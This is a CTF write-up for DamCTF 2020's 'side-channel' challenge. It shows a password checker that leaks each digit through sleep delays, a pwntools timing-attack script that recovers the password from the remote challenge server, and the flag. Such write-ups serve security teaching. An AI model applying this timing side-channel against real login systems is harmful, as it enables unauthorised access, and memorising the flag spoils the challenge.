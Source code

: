 # Dam CTF 2020: Misc: side-channel
</br>**Category:** Miscellaneous **Points:** 390 points
</br></br>
**Description:**</br>
We built a super-secure password checker. Can you guess what my password is?</br>
This challenge does NOT require brute forcing, you can get the flag with one connection.
> nc chals.damctf.xyz 30318

**Attachment:** [side-channel.py](side-channel.py) (sha256sum: 069e5ebc35212f23cedf148d614f6509b15c09bedfa777f8e15e1191444dd80c)

## Solution
#### The program:
```python
#!/usr/bin/env python3

import secrets
import codecs
import time

# init with dummy data
password = 'asdfzxcv'
sample_password = 'qwerasdf'


# print flag! call this!
def cat_flag():
    with open("./flag", 'rt') as f:
        print(f.read())

# initialize password
def init_password():
    global password
    global sample_password
    # seems super secure, right?
    password = "%08x" % secrets.randbits(32)
    sample_password = "%08x" % secrets.randbits(32)

# convert hex char to a number
# '0' = 0, 'f' = 15, '9' = 9...
def charactor_position_in_hex(c):
    string = "0123456789abcdef"
    return string.find(c[0])

# the function that matters..
def guess_password(s):
    print("Password guessing %s" % s)
    typed_password = ''
    correct_password = True
    for i in range(len(password)):
        user_guess = input("Guess character at position password[%d] = %s?\n" \
                % (i, typed_password))
        typed_password += user_guess
        if user_guess != password[i]:
            # we will punish the users for supplying wrong char..
            time.sleep(0.1 * charactor_position_in_hex(password[i]))
            correct_password = False

    # to get the flag, please supply all 8 correct characters for the password..
    if correct_password:
        cat_flag()

    return correct_password

# main function!
def main():
    init_password()
    print("Can you tell me what my password is?")
    print("We randomly generated 8 hexadecimal digit password (e.g., %s)" % sample_password)
    print("so please guess the password character by character.")
    print("You have only 2 chances to test your guess...")
    guess_password("Trial 1")
    if not guess_password("Trial 2"):
        print("My password was %s" % password)

if __name__ == '__main__':
    main()
```

We have two attempts to guess the password, the password is 8 hexadecimal digits long. The program checks every digit, if it's wrong, the program sleeps for 0.1* right_digit seconds.

#### The plan:
In our first attempt, we send 'qqqqqqqq' as the password, note that the right password only has '0123456789abcdef' characters in it, so we will fail for every character, make the program go to sleep.</br>
So, if we calculate the time between when we send the character, until the program sends us a response we will be able to calculate the right charater and send it in our second attempt.

#### The exploit:
```python
from pwn import *

local = False

if local:
    p = process('./side-channel.py')
else:
    p = remote('chals.damctf.xyz', 30318)

alphabet = '0123456789abcdef'
password = ''
p.recvuntil('Guess character at position password[0] = ?\n')
for i in range(0,8):
    p.sendline('q')
    start_time = time.time()
    p.recvline()
    elapsed_time = time.time() - start_time
    print(elapsed_time)
    password += alphabet[int(elapsed_time * 10)-1]

print('password is '+password)

for i in range(0,8):
    p.sendline(password[i])
    print(p.recvline())

p.interactive()
```

## Flag
> dam{d0nT_d3l4y_th3_pRoC3sSiNg}
